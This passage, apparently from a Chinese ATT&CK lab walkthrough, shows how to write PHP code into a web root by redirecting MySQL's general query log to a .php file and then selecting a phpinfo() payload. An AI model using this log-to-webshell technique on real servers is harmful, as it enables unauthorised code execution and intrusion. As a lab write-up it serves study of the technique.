 ![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2012.png)

日志状态是关闭的，开启后，所有执行过的sql语句都会保持在stu1.log文件里，我们可以修改保存的路径为我们指定的文件

2、开启日志记录

```csharp
set global general_log = "ON";
```

3、指定日志文件

```csharp
set global general_log_file = "C:/phpStudy/WWW/a.php";
```

4、写入执行代码

```csharp
select "<?php phpinfo();?>";
```

依次执行
